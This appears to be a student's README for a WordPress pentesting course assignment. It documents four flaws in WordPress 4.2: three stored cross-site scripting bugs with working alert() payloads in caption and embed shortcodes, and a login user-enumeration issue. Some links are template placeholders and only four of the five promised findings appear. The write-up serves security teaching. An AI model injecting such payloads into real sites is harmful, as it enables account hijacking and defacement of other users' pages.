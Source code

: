 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Vulnerability Name or ID: Authenticated Stored Cross-Site Scripting(XSS1)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: http://g.recordit.co/AkE1Bui54v.gif
  - [x] Steps to recreate: 
    + ++ If the attacker types /* <a href="[caption code=]"></a><a title=" onmouseover=alert('test')  ">link</a>. */
    + ++ Then WP will become "test" hyperlink
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  
  
  
### 2. (Required) Vulnerability Name or ID: User Enumeration 
  - [x] Summary: 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [x] GIF Walkthrough: http://g.recordit.co/8TqbMU0RRt.gif
  - [x] Steps to recreate: 
   ++ Create a new user account
   ++ Enter admin as a username and an invalid password to log in such as 123
   ++ An error message is shown to tell attacker where the error comes from.
   ++ When you randomly input username and password, it shows the error which is invalid username
   
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) Vulnerability Name or ID: Unauthenticated Stored Cross-Site Scripting (XSS2)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: https://recordit.co/lCyLMmCEx1
  - [x] Steps to recreate: 
       -->  Create a new post, and insert the code [caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("exploit!")' ">Click!</a> into the post content . Then it shows 1 when you view the comment of this post in future.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID : Oversized File Upload Error CSS
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.12
  - [x] GIF Walkthrough: https://recordit.co/JT2JZsTqdN
  - [x] Steps to recreate: 
  - ++ Create a new video format post
  - ++ Type in [embed src='https://youtube.com/embed/123\x3csvg onload=alert(123456)\x3e'][/embed]
  - ++ It will show 123456 each time 
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
Pretty much a straight forward assignment. Nothing to discuss more

## License

    Copyright [2020] [Richard]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

